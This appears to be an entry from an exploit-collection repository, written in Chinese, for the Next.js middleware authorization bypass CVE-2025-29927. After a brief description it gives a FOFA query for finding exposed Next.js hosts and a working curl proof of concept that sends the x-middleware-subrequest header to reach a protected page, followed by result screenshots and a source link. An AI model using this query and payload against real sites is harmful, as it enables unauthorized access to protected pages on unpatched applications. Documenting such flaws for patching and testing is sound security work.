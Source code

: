 # Next中间件绕过漏洞(CVE-2025-29927)

Next.js 是一个用于构建全栈 Web 应用程序的 React 框架。在受影响的版本中，如果 Next.js 应用程序正在基于路径名的中间件中执行授权，则可能会绕过应用程序根目录下的页面的此授权，允许未经授权访问Next.js应用程序中的根级页面，这些页面本应受到授权检查的保护

## fofa
```javascript
app="NEXT.JS"
```

## poc
```javascript
curl -H "x-middleware-subrequest: middleware" http://10.10.72.67:3000/protected
```
![image](https://github.com/user-attachments/assets/2a39fd91-6b65-496a-b274-fee70dd9ca95)
![image](https://github.com/user-attachments/assets/36efa98c-cb6c-4fbc-b8a4-d42565ad9f28)

## 漏洞来源

- https://github.com/aydinnyunus/CVE-2025-29927

